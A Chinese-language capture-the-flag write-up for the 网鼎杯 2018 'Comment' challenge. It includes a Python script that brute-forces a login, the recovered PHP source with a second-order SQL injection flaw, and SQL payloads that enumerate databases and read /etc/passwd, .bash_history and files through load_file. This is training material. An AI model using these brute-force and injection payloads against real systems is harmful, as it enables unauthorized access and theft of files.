# [网鼎杯 2018]Comment

## 知识点

`SQL注入`

`二次注入 `

`git泄露`

`.DS_Store找flag`

## 解题

首页给了一个留言版发帖，但是点击发帖输入提交后发现要求登录



提示账号为`zhangwei`，密码为`zhangwei***`，先尝试`纯数字`

```python
import requests
from string import digits, ascii_letters
import itertools
import time


url = "http://ede22497-5485-431d-b0bb-d6bfabe76903.node5.buuoj.cn:81/login.php"

res = list(itertools.product(digits, repeat=3))

dictionary = [''.join(v) for v in res]


with open('./res.txt', 'w') as f:
    for passwd in dictionary:
        data = {
            "username": 'zhangwei',
            'password': f'zhangwei{passwd}'
        }
        resp = requests.post(url, data=data)
        print(f"username:zhangwei\tpassword:zhangwei{passwd}\tresp_code:{resp.status_code}\tresp_length:{len(resp.text)}")
        f.write(f"username:zhangwei\tpassword:zhangwei{passwd}\tresp_code:{resp.status_code}\tresp_length:{len(resp.text)}\n")
        time.sleep(0.15)
```

最后发现`zhangwei666`的响应包长度不同，尝试登录，发现成功登录，且在扫描目录的过程中发现了`git泄露`，`githack`下载后发现给的代码无法利用

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    break;
case 'comment':
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

似乎内容被删除了，看一下历史版本信息

```bash
git log --all
```



发现了三个版本，逐个回退，在`e5b2a2443c2b6d395d06960123142bc91123148c`版本发现源码

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

我们可以在`write`时写入`payload`，在`comment`时进行二次注入，最终结果会显示在`comment.php`，第一步尝试``

```sql
title=test&category=test',content=database(),/*&content=test
```

发现能正常回显



因为`sql`语句是多行语句，所以用`*/`进行多行注释






发现能正常查询，注`数据库，表等等`

```sql
(select(group_concat(table_schema))from(information_schema.schemata))

(select(group_concat(table_name))from(information_schema.tables)where((table_schema)=database()))
```

后面发现`flag`不在数据库中，尝试读`用户创建容器时执行的命令`，首先找一下`用户家目录`

```sql
(select(load_file("/etc/passwd")))
```



发现家目录在`/home/www`，尝试读取`.bash_history`

```sql
(select(load_file("/home/www/.bash_history")))
```



发现`.DS_Store`文件还在`/tmp/html`，`.DS_Store`文件可以看到目录文件，尝试读取

```sql
(select(load_file("/tmp/html/.DS_Store")))
```



这样读有点问题，尝试使用`16`进制输出

```sql
(select(hex(load_file("/tmp/html/.DS_Store"))))
```



`hex`解码



读取文件

```sql
(select(hex(load_file("/tmp/html/flag_8946e1ff1ee3e40f.php"))))
```





[参考文章](https://www.cnblogs.com/Article-kelp/p/16077919.html)